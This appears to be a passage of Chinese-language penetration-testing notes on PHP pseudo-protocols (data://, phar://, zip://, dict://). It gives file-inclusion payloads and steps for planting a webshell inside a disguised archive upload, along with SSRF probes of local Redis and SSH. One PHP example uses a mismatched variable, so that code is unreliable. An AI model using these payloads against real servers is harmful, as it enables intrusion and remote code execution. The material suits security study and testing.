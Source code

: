 ### data://

将 include 的文件流重定向到用户控制的输入流

```powershell
/test.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpO2V4aXQoKTsvLw==
```

可以用于控制 file_get_contents 的内容为用户输入的流

```php
$file=$_GET['file'];
$data = @file_get_contents($a,'r');
echo $data;
```

file_get_contens支持data协议，并且可以指定任意的域名，利用 data://yourname.auu/data/plain;base64,xxx 这样的 payload 绕过 php 的 parse_url 对域名和路径的限制。

## phar://

发现有一个文件上传功能，无法绕过，仅能上传jpg后缀的文件。与此同时，无法进行文件包含截断。allow_url_include=on 的状态下，就可以考虑phar伪协议绕过。

写一个shell.php文件，里面包含一句话木马。然后，压缩成xxx.zip。然后改名为xxx.jpg进行上传。最后使用phar进行包含
这里的路径为上传的 jpg 文件在服务器的路径

```powershell
/index.php?id=phar://路径/xxx.jpg/shell
```

## zip://

上述 phar:// 的方法也可以使用 zip://

然后吧1.php文件压缩成zip，再把zip的后缀改为png，上传上去，并且可以获得上传上去的png的地址。

1.zip文件内仅有1.php这个文件

```powershell
/php?file=zip://1.png%231.php  

// 也可以尝试不改名为png，直接使用zip上传测试一下
/php?file=zip://1.zip%231.php
```

## dict://

```powershell
# 查看 redis 中的 info 数据
/index.php?url=dict://127.0.0.1:6379/info
# 查看 ssh 的 banner
/index.php?url=dict://127.0.0.1:ssh端口/info
```

## file://
